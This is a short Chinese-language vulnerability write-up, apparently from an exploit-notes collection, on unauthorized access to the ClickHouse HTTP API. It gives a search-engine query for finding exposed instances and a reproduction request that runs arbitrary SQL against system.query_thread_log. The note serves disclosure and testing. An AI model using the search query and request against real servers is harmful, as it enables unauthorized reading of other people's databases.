


# ClickHouse API 数据库接口未授权访问漏洞

## 漏洞描述

ClickHouse API 数据库接口存在未授权访问漏洞，攻击者通过漏洞可以执行任意SQL命令获取数据库数据

## 漏洞影响

<a-checkbox checked>ClickHouse</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"ClickHouse" && body="ok"</a-checkbox></br>

## 漏洞复现

登录页面


执行SQL语句



```php
/?query=SELECT%20*%20FROM%20system.query_thread_log%20LIMIT%201%20FORMAT%20Vertical
```

